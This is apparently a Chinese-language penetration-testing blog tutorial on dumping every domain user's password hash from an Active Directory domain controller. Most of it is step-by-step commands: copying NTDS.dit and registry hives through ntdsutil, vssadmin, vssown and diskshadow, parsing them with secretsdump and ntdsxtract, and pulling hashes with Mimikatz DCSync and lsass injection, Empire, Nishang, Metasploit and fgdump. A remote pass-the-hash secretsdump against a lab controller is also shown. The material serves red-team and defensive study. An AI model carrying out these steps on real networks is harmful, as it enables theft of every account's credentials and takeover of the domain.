

## 域内用户Hash获取方式总结

- - -

#### [文章前言](#toc_)

在渗透测试的过程中，当我们已经是域管权限时，就可以实现提取所有域内用户的密码哈希以进行离线破解和分析，这是非常常见的一个操作，这些哈希值存储在域控制器(NTDS.DIT)中的数据库文件中，并带有一些其他信息，如用户名、散列值、组、GPP、OU等于活动目录相关的信息，它和SAM文件一样都是被操作系统锁定的，因此无法直接复制到其他位置以提取信息。NTDS.dit文件位于Windows以下位置：

`C:\Windows\NTDS\NTDS.dit`

#### [NTDS提取](#toc_ntds)

##### [NTDSUTIL](#toc_ntdsutil)

NTDSUTIL是一个命令行工具，它是域控制器生态系统的一部分，其目的是为了使管理员能够访问和管理Windows Active Directory数据库，但是，渗透测试人员和redteam可以用它来拍摄现有ntds.dit文件的快照，该文件可以复制到新位置以进行离线分析和密码哈希的提取

ntdsutil  
activate instance ntds  
ifm  
create full C:\\ntdsutil  
quit  
quit

之后在C:\\ntdsutil中将生成两个新文件夹：Active Directory和Registry：

NTDS.DIT文件将保存在Active Directory中：  

SAM和SYSTEM文件将保存到Registry文件夹中：

之后可以使用ntdsdump进行离线提取Hash:

ntdsdump.exe -f ntds.dit -s SYSTEM

# [参数说明：](#toc__1)

ntdsdump.exe <-f ntds.dit> <-k HEX-SYS-KEY | -s system.hiv> \[-o out.txt\] \[-h\] \[-t JOHN|LC\] \* -f ntds.dit路径 \* -k 可选的十六进制格式的SYSKEY \* -s 可选的system.hiv路径 \* -h 导出历史密码记录 \* -t 导出格式，LC或JOHN \* -o 导出到指定文件中 \*  

之后在CMd5解密网站进行解密解密即可：[https://www.cmd5.org/](https://www.cmd5.org/)

##### [vssadmin](#toc_vssadmin)

vssadmin是WIndows Server 2008和Win 7提供的VSS管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息(只能管理系统Provider创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序等，在内网渗透测试过程中，我们也可以使用vssadminn来提取ntds.dit文件，流程如下：

Step 1：在域控制器中打开命令环境，输入如下命令，创建一个C盘的影卷拷贝：

vssadmin create shadow /for=c:

Step 2:将NTDS.dit和SYSTEM文件从创建的影卷中复制出来

copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\windows\\NTDS\\ntds.dit c:\\ntds.dit  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy1\\Windows\\System32\\config\\SYSTEM C:\\SYSTEM

之后可以在C盘中看到成功复制ntds.dit文件：

Step 3：之后执行以下命令删除影卷信息：

`vssadmin delete shadows /for=c: /quiet`

Step 4：之后通过impacket来导出hash值

./secretsdump.py -system /root/vssadmin/SYSTEM -ntds /root/vssadmin/ntds.dit LOCAL

##### [vssown.vbs](#toc_vssownvbs)

与vssadmin程序类似，Tim Tomes开发了vssown([https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs) )，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。

Step 1:启动影卷拷贝服务

cscript vssown.vbs /start

Step 2：创建一个C盘的影卷拷贝

cscript vssown.vbs /create c

Step 3:列出当前影卷拷贝  
cscript vssown.vbs /list

Step 4：复制ntds.dit、SYSTEM、SAM文件

copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\ntds\\ntds.dit C:\\vssown\\ntds.dit  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\system32\\config\\SYSTEM C:\\vssown\\SYSTEM  
copy \\?\\GLOBALROOT\\Device\\HarddiskVolumeShadowCopy2\\windows\\system32\\config\\SAM C:\\vssown\\SAM

Step 5:查看拷贝的文件

`dir c:\vssown\`

Step 6：删除影卷拷贝

cscript vssown.vbs /delete {54ECD66A-570C-4489-956F-9B83E4C8B1B9}

Step 7：之后使用impacket导出Hash

./secretsdump.py -system /root/vssown/SYSTEM -ntds /root/vssown/ntds.dit LOCAL

##### [diskshadow](#toc_diskshadow)

DiskShadow是Microsoft签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初bohops在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行NTDS.DIT提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本，在使用时需要注意一点，DiskShadow二进制文件需要从C\\Windows\\System32路径执行，如果从另一个路径调用它，脚本将无法正确执行：

set context persistent nowriters  
add volume c: alias someAlias  
create  
expose %someAlias% z:  
exec "cmd.exe" /c copy z:\\windows\\ntds\\ntds.dit c:\\ntds.dit  
delete shadows all  
reset

在cmd下执行以下命令：

diskshadow.exe /s c:\\diskshadow.txt

之后查看c盘可以看到成功复制文件：

导出ntds.dit后，可以键system.hive转储，因为system.hive中存放着ntds.dit的秘钥，如果没有该密钥，将无法查看ntds.dit中的信息：

reg save hklm\\system c:\\system.hive

之后使用impacket导出hash

./secretsdump.py -system /root/diskshadow/system.hive -ntds /root/diskshadow/ntds.dit LOCAL

#### [NDTS Hash](#toc_ndts-hash)

##### [Impacket](#toc_impacket)

我们可以使用impacket工具包中的secretsdump来解析ntds.dit文件并导出散列：

`./secretsdump.py -system /root/system.hive -ntds /root/ntds.dit LOCAL`

impacket还可以直接通过用户名和散列值进行验证，从远程域控制器中读取ntds.dit并转储域散列值：

`./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:41945356c1b2adde08c00d0e48515b7e -just-dc hacke.testlab/administrator@192.168.188.2`

##### [esedbexport](#toc_esedbexport)

在这里我们需要通过安装libesedb从ntds.dit中导出dataable和link\_table，在终端执行以下命令下载libesedb：

git clone [https://github.com/libyal/libesedb](https://github.com/libyal/libesedb)  
cd libesedb/  
./synclibs.sh  
./autogen.sh

之后执行以下命令安装依赖：

sudo apt install git autoconf automake autopoint libtool pkg-config

之后执行以下命令对libesedb进行编译与安装：

./configure  
make  
sudo make install  
sudo ldconfig

安装完成之后会在系统的/usr/local/bin目录下看的esedbexport程序，如下所示：

ls /usr/local/bin/ | grep esedbexport

之后使用esedbexport进行恢复操作，执行以下命令来提取表信息，操作时间视ntds.dit文件的大小而定，如果提取成功会在同一目录下生成一个文件夹，这里我们只提取dataable和link\_table:

esedbexport -m tables /root/ntds.dit

导出信息如下所示：

之后我们借助ntdsxtract来导出散列值，首先我们需要安装该工具：

git clone [https://github.com/csababarta/ntdsxtract.git](https://github.com/csababarta/ntdsxtract.git)

之后进入文件夹执行以下命令进行安装：

python setup.py build && python setup.py install  
running build

之后输入以下命令，将导出的ntds.dit.export文件夹和SYSTEM文件一并放入ntdsxtract文件夹并执行以下命令：

./dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link\_table.7 output --syshive system.hive --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout | tee all\_user.txt

之后会将域内的所有用户名和散列值导出到all\_user.txt中：

ntds.dit包含域内的所有信息，可以通过分析ntds.dit导出域内的计算机信息以及其他信息，命令如下：

dscomputers.py ntds.dit.export/datatable.4 computer\_output --csvoutfile all\_computers.csv

#### [NTDSDumpex](#toc_ntdsdumpex)

NTDSDumpex.exe([https://github.com/zcgonvh/NTDSDumpEx/releases](https://github.com/zcgonvh/NTDSDumpEx/releases) )程序也可以用于导出散列值得操作，在使用时只需要将ntds.dit、SYSTEM、NTDSDumpex.exe放到同一目录下，之后执行以下命令即可(效果并不理想，时常出现下面的问题)：

NTDSDumpex.exe -d ntds.dit -s system

#### [第三方工具](#toc__2)

下面介绍几种常见的域内用户Hash获取的方法与策略~

##### [Mimikatz](#toc_mimikatz)

项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

项目介绍：mimikatz用于从Windows操作系统内存中提取明文密码、散列、pin码和kerberos票据，同时mimikatz还可以执行传递散列、传递票证或构建黄金票证。  
工具使用：

a、获取所有域内用户的账户信息

lsadump::dcsync /domain:hacke.testlab /all /csv

b、通过使用/user参数指定域用户名来获取特定用户的所有帐户信息，包括其密码哈希

lsadump::dcsync /domain:hacke.testlab /user:testuser

c、直接在域控制器中执行Mimikatz，通过lsass.exe进程dump哈希

privilege::debug  
lsadump::lsa /inject  

##### [Empire](#toc_empire)

提取域内所有用户hash值：

usemodule credentials/mimikatz/dcsync\_hashdump

dump特定帐户信息：

(Empire: 8GLZTYXR) > usemodule credentials/mimikatz/dcsync  
(Empire: powershell/credentials/mimikatz/dcsync) > set user Al1ex  
(Empire: powershell/credentials/mimikatz/dcsync) > execute

##### [Nishang](#toc_nishang)

Nishang是一个PowerShell框架，它让redteam和渗透测试人员能够对系统进行攻击性操作，Nishang中的VSS脚本可以用于自动提取所需的文件：NTDS.DIT，SAM和SYSTEM，这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中。

Import-Module .\\Copy-VSS.ps1  
Copy-VSS //复制到当前目录  
Copy-VSS -DestinationDir C:\\ShadowCopy //复制到指定目录

之后通过Mimikatz来获取信息：

lsadump::sam /sam:sam.hive /system:system.hive

##### [Metasploit](#toc_metasploit)

run post/windows/gather/hashdump

run post/windows/gather/smart\_hashdump

如果已经拿到域控制器的现有Meterpreter会话，则可以使用命令hashdump，但是，此方法不被认为是安全的，因为可能会使域控崩掉

##### [fgdump](#toc_fgdump)

fgdump([http://www.foofus.net/fizzgig/fgdump/fgdump-2.1.0-exeonly.zip](http://www.foofus.net/fizzgig/fgdump/fgdump-2.1.0-exeonly.zip) )是一个比较老的可执行文件，可提取的LanMan和NTLM的密码哈希值，如果已获取本地管理员凭据，则可以在本地或远程执行。在执行期间，fgdump将尝试禁用可能在系统上运行的防病毒软件，如果成功，则会将所有数据写入两个文件中，如果存在防病毒或端点解决方案，则不应该将fgdump用作dump密码哈希的方法以避免检测，因为大多数防病毒公司(包括Microsoft的Windows Defender)都会对将它kill掉

fgdump.exe

之后可以通过检查.pwdump文件的内容来get密码哈希值

PS:速度超级慢，慢的卡死，强烈不推荐~

##### [Invoke-DCSync](#toc_invoke-dcsync)

Invoke–DCSync([https://gist.github.com/monoxgas/9d238accd969550136db](https://gist.github.com/monoxgas/9d238accd969550136db)) 是Nick Landers利用PowerView开发的powershell脚本，Invoke-ReflectivePEInjection和PowerKatz的DLL wrapper调用Mimikatz的DCSync方法检索哈希值，直接执行该函数将生成以下输出：

Import-Module ./Invoke-DCSync.ps1  
Invoke-DCSync

从上面可以看到结果将格式化为四个表：Domain，User，RID和Hash，当使用参数-PWDumpFormat执行Invoke-DCSync将以以下格式检索哈希：

user：id：lm：ntlm :::

#### [文末小结](#toc__3)

本篇文章主要介绍了域内用户Hash的获取方法，同样在内网渗透中很有用，后续有机会再给大家分享其他的内网内容
